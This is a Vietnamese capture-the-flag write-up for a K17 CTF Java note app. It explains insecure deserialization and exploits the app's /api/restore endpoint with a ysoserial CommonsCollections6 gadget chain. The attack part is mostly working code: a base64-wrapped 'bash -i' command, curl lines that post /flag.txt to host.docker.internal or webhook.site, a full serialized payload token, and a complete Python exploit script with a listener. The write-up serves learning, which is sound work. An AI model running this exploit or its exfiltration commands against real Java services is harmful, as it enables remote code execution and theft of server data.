




## Introduction
Bài này là một lỗi điển hình **Insecure Deserialization** trong bảo mật web, tuy nhiên tác giả lại đưa vào mảng Pwnable, theo mình nghĩ vì nó giống cơ chế đó chính là build một gadget chain để thực hiện 1 lệnh thực thi tuỳ ý => RCE (đây cũng là 1 kỹ thuật xài rất nhiều ở trong Pwnable).
## Theory
### Serialization
Là quá trình chuyển đổi một đối tượng có cấu trúc phức tạp thành một định dạng chuỗi để có thể dễ dàng lưu trữ, truyền tải hoặc nạp vào bộ nhớ của máy tính.
### Deserialization
Là quá trình ngược lại của serialization - chuyển đổi một chuỗi byte trở thành đối tượng có cấu trúc ban đầu trong bộ nhớ, chương trình có thể sử dụng lại như một object bình thường.

```python
#!/usr/bin/python3

import pickle

data = {
    "name": "Hakai",
    "age": 21,
    "hobby": ["Hacking", "Music", "Gaming"],
}

#Serialization: object -> bytes

serialized_data = pickle.dumps(data)
print("Serialized data:", serialized_data)

#Deserialization: bytes -> object
deserialized_data = pickle.loads(serialized_data)
print("Deserialized data:", deserialized_data)
```
Output:
```bash
./pickle_test.py
Serialized data: b'\x80\x04\x95C\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04name\x94\x8c\x05Hakai\x94\x8c\x03age\x94K\x15\x8c\x05hobby\x94]\x94(\x8c\x07Hacking\x94\x8c\x05Music\x94\x8c\x06Gaming\x94eu.'
Deserialized data: {'name': 'Hakai', 'age': 21, 'hobby': ['Hacking', 'Music', 'Gaming']}
```
### Why is deserialization a dangerous process?
Nhiều chuẩn serialization cho phép biểu diễn không chỉ dữ liệu mà còn cả dynamic code. Điều này có nghĩa là trong quá trình deserialization, hoàn toàn có thể thực thi các đoạn mã phụ thuộc vào dữ liệu đang được deserialization.


Trong Python, có thể định nghĩa một lớp mà khi được deserialization, nó sẽ thực thi arbitrary code.
```python
#!/usr/bin/python3

import pickle
import os

class Malicious:
    def __reduce__(self):
        # This method is called during unpickling
        return (os.system, ("echo 'Malicious code executed!'",))

malicious_payload = pickle.dumps(Malicious())
obj = pickle.loads(malicious_payload)  # This will execute the malicious code
```
Output:
```bash
./pickle_vuln.py
Malicious code executed!
```

## References

[1] [Exploiting insecure deserialization vulnerabilities | Web Security Academy](https://portswigger.net/web-security/deserialization/exploiting#gadget-chains)


[2] [Insecure Deserialization](https://www.youtube.com/watch?v=TPqIG5TTstg)

## K17 CTF - java
Build local challenge:
```bash
docker build -t java-note .
docker run --privileged -p 8080:8080 java-note 
```
Giao diện đề bài như sau: đây là app ghi chú đơn giản.
- Save -> server trả về một chuỗi dài gọi là token
- Restore -> dán token vào, server sẽ reverse lại và hiển thị ghi chú.



Để ý rằng `rO0` chính là dạng base64 của 2 byte `0xAC 0xED` - magic byte của mọi Java serialized object (object đã được biến thành chuỗi byte). Khi thấy một token bắt đầu bằng `rO0` phản xạ đầu tiên là: đây là Java serialization -> có thể dính Insecure Deserialization.

### Review Source Code
Trong hàm `main` server có 4 route, mỗi route gắn với mỗi class Handler xử lý riêng:
```java
server.createContext("/", new IndexHandler());
server.createContext("/api/export", new ExportHandler());
server.createContext("/api/save", new SaveHandler());
server.createContext("/api/restore", new RestoreHandler());
```
Hàm `RestoreHandler`:
```java
static class RestoreHandler implements HttpHandler {
        @Override
        public void handle(HttpExchange ex) throws IOException {
            if (!"POST".equals(ex.getRequestMethod())) {
                send(ex, 405, "text/plain", "POST a token".getBytes(StandardCharsets.UTF_8));
                return;
            }

            String body = readAll(ex.getRequestBody());
            String token = body;
            if (token.startsWith("token=")) {
                token = java.net.URLDecoder.decode(token.substring("token=".length()),
                        StandardCharsets.UTF_8.name());
            }
            token = token.trim();

            byte[] raw;
            try {
                raw = Base64.getDecoder().decode(token);
            } catch (IllegalArgumentException e) {
                send(ex, 400, "text/plain", "invalid base64 token".getBytes(StandardCharsets.UTF_8));
                return;
            }

            try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(raw))) {
                Object obj = ois.readObject(); // <-- the bug
                if (obj instanceof Session) {
                    send(ex, 200, "application/json",
                            sessionJson((Session) obj).getBytes(StandardCharsets.UTF_8));
                } else {
                    send(ex, 400, "text/plain",
                            "that token is not a session".getBytes(StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                send(ex, 400, "text/plain",
                        ("could not restore session: " + e.getClass().getSimpleName())
                                .getBytes(StandardCharsets.UTF_8));
            }
        }
    }
```
`readObject()` được gọi trước `if (obj instanceof Session)`. Nghĩa là server khôi phục bất kỳ object gì ta gửi đến; và nếu quá trình khôi phục có tác dụng phụ (chạy code), thì nó cũng xảy ra trước khi server kịp từ chối vì không phải Session.


Tại endpoint `POST /api/restore` nhận một "token" của người dùng rồi gọi thẳng `ObjectInputStream.readObject()` lên dữ liệu đó - nên ta có thể thấy đây là lỗi Insecure Deserialization.


Bên cạnh đó tại file `pom.xml`:
```java
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```
Ta dùng công cụ **ysoserial** để sinh một evil object (gadget chain) để thực thi một lệnh tuỳ ý trên server. 
### Ysoserial
Là một công cụ mã nguồn mở (viết bởi @frohoff và cộng đồng) dùng để tạo ra các payload deserialization độc hại cho Java, khai thác lỗ hổng Insecure Deserialization trong các ứng dụng sử dụng `ObjectInputStream.readObject()` để xử lý dữ liệu không đáng tin cậy.


Nói đơn giản: thay vì phải tự tay dựng gadget chain (chuỗi các class có sẵn trên classpath của ứng dụng, khi được deserialize theo đúng trình tự sẽ dẫn tới thực thi lệnh hệ thống), ysoserial đóng gói sẵn hàng chục gadget chain nổi tiếng — chỉ cần chọn đúng loại phù hợp với thư viện mà target đang dùng, đưa vào lệnh muốn thực thi, và nó sẽ tự sinh ra chuỗi bytes serialize sẵn.


Cài đặt:
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```


Chạy trực tiếp file `.jar` mà không kèm tham số, ysoserial sẽ liệt kê toàn bộ danh sách payload có sẵn kèm theo:

Dựa vào chương trình sử dụng phiên bản commons-collection thì những payload CommonsCollections1,3,5,6,7 có thể sử dụng được.
### Exploit Strategy
Ở hàm `RestoreHandler` trong `Main.java` - sau khi deserialize, server chỉ trả về đúng 3 khả năng:
```java
try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(raw))) {
    Object obj = ois.readObject(); // <-- the bug
    if (obj instanceof Session) {
        send(ex, 200, "application/json",
                sessionJson((Session) obj).getBytes(StandardCharsets.UTF_8));
    } else {
        send(ex, 400, "text/plain",
                "that token is not a session".getBytes(StandardCharsets.UTF_8));
    }
} catch (Exception e) {
    send(ex, 400, "text/plain",
            ("could not restore session: " + e.getClass().getSimpleName())
                    .getBytes(StandardCharsets.UTF_8));
```
Payload của mình là một HashSet (gadget chain), không phải Session. Nên luôn nhận được dòng chữ "that token is not a session".


Vì Blind RCE - server chạy được lệnh nhưng không trả kết quả lệnh về. Nên mình phải nhờ chính server "gửi flag đến một nơi mà ta có thể đọc được". 


Làm ở local: sử dụng `host.docker.internal` để trả về.
Làm ở remote: sử dụng `webhook.site` để trả về.
#### Command Line
Giờ chúng ta cần chuẩn bị một `cmd` đọc flag trước khi sử dụng **Ysoserial** thực hiện gadget chain trả về lệnh `cmd`. Ta thực hiện lệnh: 
```bash
❯ docker exec -it 4214067e0b0d /bin/bash
ctf@4214067e0b0d:/app$ ls
javanotes.jar
ctf@4214067e0b0d:/app$ cd ..
ctf@4214067e0b0d:/$ ls
__cacert_entrypoint.sh  app  bin  boot  dev  etc  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
ctf@4214067e0b0d:/$ curl -sS --data-binary @/flag.txt http://host.docker.internal:4444
curl: (52) Empty reply from server
```
Chức năng là đọc nội dung file `flag.txt` và gửi nó làm HTTP POST body đến `https://host.docker.internal:4444`. 
Kết quả:
```bash
C:\Users\Admin>python -c "import socket; s=socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(('0.0.0.0',4444)); s.listen(1); print('listening 4444'); c,a=s.accept(); print('GOT',a); print(c.recv(9999).decode())"
listening 4444
GOT ('127.0.0.1', 59193)
POST / HTTP/1.1
Host: host.docker.internal:4444
User-Agent: curl/8.18.0
Accept: */*
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

K17CTF{java_deser_commons_collections_pop_rce}
```
#### Building a token
Kinh nghiệm làm web: bất cứ khi nào payload RCE phải đi qua bất kỳ tầng trung gian nào nên lúc nào mình chuẩn bị một evil command thì phải base64 encode nó để tránh trong command mình chứa những kí tự đặc biệt hoặc những kí tự mà chương trình nó có thể lọc (trong blacklist).


Bước 1: Base64 encode command line
```bash
❯ echo -n "curl -sS --data-binary @/flag.txt http://host.docker.internal:4444" | base64 -d
❯ echo -n "curl -sS --data-binary @/flag.txt http://host.docker.internal:4444" | base64 -w0
Y3VybCAtc1MgLS1kYXRhLWJpbmFyeSBAL2ZsYWcudHh0IGh0dHA6Ly9ob3N0LmRvY2tlci5pbnRlcm5hbDo0NDQ0%  
❯ echo Y3VybCAtc1MgLS1kYXRhLWJpbmFyeSBAL2ZsYWcudHh0IGh0dHA6Ly9ob3N0LmRvY2tlci5pbnRlcm5hbDo0NDQ0 | base64 -d | bash -i
```
Bước 2: Bae64 token
```bash
❯ java \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
    --add-opens=java.base/java.net=ALL-UNNAMED \
    --add-opens=java.base/java.util=ALL-UNNAMED \
    -jar ysoserial-all.jar \
    CommonsCollections6 'bash -c {echo,Y3VybCAtc1MgLS1kYXRhLWJpbmFyeSBAL2ZsYWcudHh0IGh0dHA6Ly9ob3N0LmRvY2tlci5pbnRlcm5hbDo0NDQ0}|{base64,-d}|{bash,-i}' | base64 -w0
rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AH1iYXNoIC1jIHtlY2hvLFkzVnliQ0F0YzFNZ0xTMWtZWFJoTFdKcGJtRnllU0JBTDJac1lXY3VkSGgwSUdoMGRIQTZMeTlvYjNOMExtUnZZMnRsY2k1cGJuUmxjbTVoYkRvME5EUTB9fHtiYXNlNjQsLWR9fHtiYXNoLC1pfXQABGV4ZWN1cQB+ABsAAAABcQB+ACBzcQB+AA9zcgARamF2YS5sYW5nLkludGVnZXIS4qCk94GHOAIAAUkABXZhbHVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHh4%
```
Lắng nghe cổng 4444:
```bash
C:\Users\Admin>python -c "import socket; s=socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(('0.0.0.0',4444)); s.listen(1); print('listening 4444'); c,a=s.accept(); print('GOT',a); print(c.recv(9999).decode())"
listening 4444
```
Paste token vào bấm restore:

Kết quả:
```bash
C:\Users\Admin>python -c "import socket; s=socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(('0.0.0.0',4444)); s.listen(1); print('listening 4444'); c,a=s.accept(); print('GOT',a); print(c.recv(9999).decode())"
listening 4444
GOT ('127.0.0.1', 62362)
POST / HTTP/1.1
Host: host.docker.internal:4444
User-Agent: curl/8.18.0
Accept: */*
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

K17CTF{java_deser_commons_collections_pop_rce}
```
### Full Exploit Script
```python
#!/usr/bin/env python3

import base64
import subprocess
import requests
import time
import socket
import threading
from pwn import args

captured = []

if args.REMOTE:
    TARGET = ""
    WEBHOOK_ID = "YOUR-WEBHOOK-ID"
    WEBHOOK_URL = f"https://webhook.site/{WEBHOOK_ID}"
    cmd = f"curl -sS --data-binary @/flag.txt {WEBHOOK_URL}"
else:
    TARGET = "http://127.0.0.1:8080"
    LHOST_FROM_CONTAINER = "host.docker.internal"
    LPORT = 4444
    cmd = f"curl -4 -sS --data-binary @/flag.txt http://{LHOST_FROM_CONTAINER}:{LPORT}/"
    def listener():
        srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        srv.bind(("0.0.0.0", LPORT))
        srv.listen(1)
        conn, addr = srv.accept()
        captured.append(conn.recv(65535))
        conn.close()
        srv.close()
    threading.Thread(target=listener, daemon=True).start()

b64 = base64.b64encode(cmd.encode()).decode()
shell = f"{{echo,{b64}}}|{{base64,-d}}|{{bash,-i}}"

p = subprocess.run(
    [
        "java",
        "--add-opens=java.base/java.lang=ALL-UNNAMED",
        "--add-opens=java.base/java.util=ALL-UNNAMED",
        "-jar",
        "ysoserial-all.jar",
        "CommonsCollections6",
        f"bash -c {shell}",
    ],
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
)

token = base64.b64encode(p.stdout).decode()

r = requests.post(
    TARGET + "/api/restore",
    data=token,
    headers={"Content-Type": "text/plain"},
)

print("[+] restore:", r.status_code, r.text[:80])
print("[+] Waiting for flag...")

if args.REMOTE:
    api = f"https://webhook.site/token/{WEBHOOK_ID}/requests"

    for _ in range(30):
        try:
            data = requests.get(api, timeout=5).json()

            for req in data.get("data", []):
                content = req.get("content", "")

                if content:
                    print("[+] FLAG:", content.strip())
                    raise SystemExit

        except requests.RequestException:
            pass

        time.sleep(1)

    print("[-] Flag NOT received")
else:
    for _ in range(30):
        if captured:
            data = captured[0].decode(errors="replace")
            flag = data.split("\r\n\r\n", 1)[1] if "\r\n\r\n" in data else data
            print("[+] FLAG:", flag.strip())
            break
        time.sleep(1)
    else:
        print("[-] Flag NOT received")
```

